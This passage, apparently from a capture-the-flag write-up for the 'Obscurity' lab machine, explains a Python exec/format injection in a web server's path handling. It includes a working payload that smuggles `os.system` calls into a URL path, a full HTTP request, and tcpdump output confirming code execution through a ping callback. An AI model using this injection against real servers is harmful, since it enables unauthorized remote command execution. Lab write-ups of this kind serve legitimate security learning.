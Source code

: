     
    
    >>> path = "/index.html'; os.system('echo test');'"
    >>> exec(info.format(path))
    test
    

That’s because first the `format` happens, resulting in a string:

    
    
    >>> info.format(path)
    "output = 'Document: /index.html'; os.system('echo test');''"
    

Now when `exec` is called on that string, it saves `output`, but also makes
the `os.system` call.

In many Python injections, I’d have to worry getting a reference to the `os`
module, but since it’s already imported into this script, I don’t have to
worry about that. If I wanted to run processes using `subprocess` instead of
`os`, I’d need to do that.

#### POC

Now to prove this on Obscurity, I’ll try to write a payload to test this
exploit. Since I don’t think I’ll see the results of the run, I’ll try to
`ping` myself. I’ll use a payload of:

    
    
    /';os.system('ping%20-c%201%2010.10.14.19');'
    

I’ll start `tcpdump` to listen for ICMP. Then I’ll visit the page root through
Burp, and then find that request and send it to Repeater. There I’ll modify
the request to:

    
    
    GET /';os.system('ping%20-c%201%2010.10.14.19');' HTTP/1.1
    Host: 10.10.10.168:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Pragma: no-cache
    Cache-Control: no-cache
    

When the web server splits on space (before the `%20`s are decoded to spaces),
it should get my injection into the `path` variable. When I send this, I get a
ping:

    
    
    root@kali# tcpdump -n -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    08:27:13.007310 IP 10.10.10.168 > 10.10.14.19: ICMP echo request, id 20509, seq 1, length 64
    08:27:13.007361 IP 10.10.14.19 > 10.10.10.168: ICMP echo reply, id 20509, seq 1, length 64
    
